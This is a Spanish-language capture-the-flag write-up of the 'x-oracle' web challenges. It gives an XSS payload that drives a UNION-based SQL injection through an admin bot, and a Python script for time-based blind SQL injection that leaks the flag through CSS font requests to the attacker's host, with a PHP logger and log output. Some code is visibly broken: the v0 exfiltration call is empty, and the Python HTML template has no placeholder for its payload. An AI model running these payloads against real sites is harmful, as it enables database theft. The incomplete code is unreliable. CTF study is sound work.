

## x-oracle - Web - 228 + 500 + 500 Points

Source: [source.js](source.js) [app.js](app.js)

All sources: <https://github.com/cgvwzq/ctf_tasks/tree/master/nn9ed>


La aplicación nos permite crear páginas HTML. Además es posible reportar una página y hacer que sea visitada por un administrador.


En el código fuente que nos dan se ve como la flag de cada nivel se encuentra dentro de la base de datos MariaDB:
```sql
INSERT INTO challenge (flag, bait) VALUES ("${flag}", "Season 6, Episode 16");
```

### x-oracle-v0 - Sin protecciones

En este primer nivel, es posible insertar código JavaScript y que sea ejecutado.

```
Content-Security-Policy', "default-src 'self' 'unsafe-inline'; img-src *; style-src *; font-src *
```

Utilizamos la función *adminsearch* de *app.js* para obtener los datos, luego los enviamos codificados en base64 a nuestro servidor.

```javascript
async function adminsearch(q) {
	if (q != "") {
		let r = await fetch("/admin/search/" + encodeURIComponent(q));
		let html = await r.text();
		return html;
	}
}
```

Por defecto esta función nos devuelve los datos de la columna *bait*, para obtener los datos de la columna *flag* aprovechamos la inyección SQL en /admin/search/:query.
```
let row = await conn.query('SELECT bait FROM challenge WHERE bait LIKE \'%' + req.params.query + '%\'');
```


```
<script src="/js/app.js"></script>
<script>
  async function foo() {
    let q = "Potato' UNION SELECT flag FROM challenge LIMIT 1 #";
    let r = await adminsearch(q);
    document.write('');
  }
  foo();
</script>
```

```
[{"bait":"nn9ed{y0u_b3tt3r_warmUp_your_w3b_j4king_sk1lls}"}]
```

### x-oracle-v1

El método que utilizamos en la parte v2 se puede aplicar también para conseguir esta flag.

Aquí puedes encontrar el writeup de cual es la solución esperada: <https://github.com/ka0labs/ctf-writeups/blob/master/2019/nn9ed/x-oracle/README.md#x-oracle-v1>

### x-oracle-v2

#### source.patch (v2)

Se deshabilita el uso de JavaScript, así como cualquier ataque cross-site.

```
60c60
<   cookie: { secure: false }
---
>   cookie: { secure: false, sameSite: 'strict' }
141c141
< 		res.setHeader('Content-Security-Policy', "default-src 'self' 'unsafe-inline'; img-src *; style-src *; font-src *");
---
> 		res.setHeader('Content-Security-Policy', "default-src 'self'; img-src *; style-src * 'unsafe-inline'; font-src *");
```

#### Solución

Combinamos un ataque de inyección SQL basado en tiempo, con CSS de la siguiente forma:

- Se carga una imagen externa.
- Simultaneamente se carga una imagen con una inyección SQL basada en tiempo.
- Al no mostrarse una imagen se muestra el texto alternativo.
- Se carga el archivo de fuentes en ese momento.

Calculando la diferencia temporal entre la imagen inicial y el archivo de fuentes podemos extraer información de la base de datos.

Con el siguiente script realizamos todo el proceso de inyección y extracción de datos.

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-

import re, requests, urllib.parse
from time import sleep


master_url = 'http://x-oracle-v1.nn9ed.ka0labs.org'
#master_url = 'http://x-oracle-v2.nn9ed.ka0labs.org'
sleeptime = 4


def createhtml(payload):
    url = master_url + '/createhtml'
    jsondata = {}
    jsondata['html'] = """<style>
@font-face{ font-family:poc; src: url(http://[MY-HOST]/end); unicode-range:U+0050;}
#flag{ font-family:poc;}
</style>

""" % (urllib.parse.quote(payload))

    r = requests.post(url, json=jsondata)
    data = r.text

    if "Thank you" in data:
        s = re.findall(r'"/readhtml/([a-z0-f\-]+)"', data)
        if s:
            uuid = s[0]
            print(uuid)
            return uuid

    return None


def report(uuid):
    url = master_url + '/report/' + uuid
    r = requests.get(url)
    data = r.text

    if "Thanks low-level-bio" in data:
        return True

    return None


def main():
    print("[+] START %s" % master_url)

    logfile = open('oracle.txt','r')
    logfile.seek(0,2);

    result = ''
    #result = 'nn9ed{t1ming_att4cks_ar3_th3_best_att4ck' # Resume partial v1
    #result = 'nn9ed{cSS_fallback_rulez' # Resume partial v2
    init = 0
    for i in range(len(result),50):

        bits = 0
        #for letter in range(7, -1, -1):
        for letter in range(6, -1, -1): #ASCII

            bitnumber = bits + pow(2, letter)
            print('%d - %d - %d ' % (i, letter, bitnumber))
            payload = "PPP' UNION SELECT flag FROM challenge WHERE bait LIKE 'Se%%' AND ASCII(SUBSTR(flag,%d,1))>=%d AND sleep(%d) LIMIT 1 #" % ( i+1 , bitnumber , sleeptime )
            uuid = createhtml(payload)
            if uuid is None:
                print("Error: UUID failed");

            reportstatus = report(uuid)
            if reportstatus is None:
                print("Error: REPORT failed %s" % (uuid));

            while True:
              status = logfile.readline()

              if uuid in status and 'init' in status:
                  init = int(status.split(' ')[0])
                  print("INIT %d" % init)


              if uuid in status and 'end' in status:
                  end = int(status.split(' ')[0])
                  print("END %d" % end)
                  diff = end - init
                  print("DIFF %d" % diff)
                  break

            # TRUE
            if diff > sleeptime - 1:
                bits += pow(2, letter)
            # FALSE
            else:
                pass

        if bits==0: # Null byte
            print("Result: %s" % result)
            exit()
        else:
            result = result + chr(bits)
            print("Partial: %s" % result)


if __name__ == "__main__":
    main()
```


#### oracle.php

Aunque es posible realizar todo el proceso escuchando en un puerto con el script de python, yo lo hice utilizando un servidor web intermedio que escribiera el *timestamp* de las peticiones en un archivo.

```php
if(isset($_REQUEST['init'])) {
	file_put_contents('oracle.txt', time()." init ".@$_SERVER['HTTP_REFERER']."\n", FILE_APPEND);
}
if(isset($_REQUEST['end'])) {
	file_put_contents('oracle.txt', time()." end ".@$_SERVER['HTTP_REFERER']."\n", FILE_APPEND);
}
```

#### Log oracle.txt

```
1570270047 init http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/c3b30e71-b26e-49ea-a86e-f8e9633eb7a2
1570270047 end http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/c3b30e71-b26e-49ea-a86e-f8e9633eb7a2
1570270047 init http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/9ac7e650-4c5a-479c-b1b5-61b0280dec0a
1570270047 end http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/9ac7e650-4c5a-479c-b1b5-61b0280dec0a
1570270047 init http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/a321dc9d-37ef-4928-8603-72d4097d3e35
1570270047 end http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/a321dc9d-37ef-4928-8603-72d4097d3e35
1570270047 init http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/c0edcb1f-16ea-4ace-9789-861d1e56d9f9
1570270047 end http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/c0edcb1f-16ea-4ace-9789-861d1e56d9f9
1570270047 init http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/203b434f-1e01-4b8d-ab58-c0b8d7ac1181
1570270048 end http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/203b434f-1e01-4b8d-ab58-c0b8d7ac1181
1570270048 init http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/a7d24d42-fa9c-44f7-b48e-b6a5f936ecf6
1570270048 end http://x-oracle-v1.nn9ed.ka0labs.org/readhtml/a7d24d42-fa9c-44f7-b48e-b6a5f936ecf6
```

#### Flag!


